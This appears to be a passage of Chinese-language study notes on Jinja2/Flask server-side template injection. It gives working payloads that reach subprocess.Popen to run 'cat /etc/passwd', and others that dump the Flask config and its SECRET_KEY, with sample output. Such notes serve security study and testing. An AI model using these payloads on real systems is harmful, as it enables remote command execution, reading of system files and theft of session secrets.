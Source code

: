 既然通过索引能获取到 `subprocess.Popen` 类，通过 `()` 执行构造方法，传递要执行的命令。命令执行完 `communicate()` 读取 stdout 和 stderr 数据组成元组 `(stdout_data, stderr_data)` 返回。

```plaintext
{{''.__class__.mro()[1].__subclasses__()[233]("cat /etc/passwd", shell=True, stdout=-1).communicate()[0]}} 
{{''.__class__.mro()[1].__subclasses__()[233](['cat', "/etc/passwd"], stdout=-1).communicate()[0]}}
```

[subprocess.Popen 构造方法参数](https://docs.python.org/3/library/subprocess.html#popen-constructor)为什么这样写？下面解读下。

*args* 默认读取列表，命令以空格作为分隔符，比如 `cat /etc/passwd /etc/shadow`，就要写成 `['cat', '/etc/passwd', '/etc/shadow']`。

*shell* 使用 `shell=True` 可直接在引号内写命令。Linux 下默认使用 /bin/sh 执行命令，Windows 怎么执行不太清楚。

```plaintext
Popen(['/bin/sh', '-c', 'cat /etc/passwd'])
```

*stdout* 具体为什么用 -1 暂时无法得知，不用就无法输出数据。

#### 读取 Flask 配置

如果无法读取文件尝试看看能不能获取 Flask 配置信息

```plaintext
{{config}}
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

重点关注配置中 SECRET\_KEY 项。

```plaintext
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 'app', 'DEBUG': False, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

#### self 对象获取

#### 其他 Payload

`{{[].__class__.__base__.__subclasses__()}}`

```plaintext
>>> import jinja2
>>> jinja2.Template("{{ [].__class__.__base__.__subclasses__() }}").render()
"[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_rever......
```
